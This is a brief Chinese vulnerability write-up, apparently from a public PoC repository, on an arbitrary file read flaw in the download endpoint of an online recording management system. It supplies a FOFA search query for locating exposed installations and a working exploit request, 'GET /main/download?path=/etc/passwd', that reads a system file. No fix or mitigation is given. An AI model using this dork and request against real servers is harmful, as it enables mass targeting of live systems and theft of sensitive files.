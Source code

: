 # 在线录音管理系统-任意文件读取

### 1.漏洞描述

在线录音管理系统 download 接口存在一个任意文件读取漏洞，攻击者可以通过构造精心设计的请求，成功利用漏洞读取服务器上的任意文件，包括敏感系统文件和应用程序配置文件等。通过利用此漏洞，攻击者可能获得系统内的敏感信息，导致潜在的信息泄露风险。

### 2.fofa语法

```xml
title="在线录音管理系统"
```

### 3.漏洞复现

```xml
GET /main/download?path=/etc/passwd HTTP/1.1
```

![image](https://github.com/hardog123/poc-exp/assets/170905460/45e5cc39-df5e-4180-8c14-de1eee4e10c2)
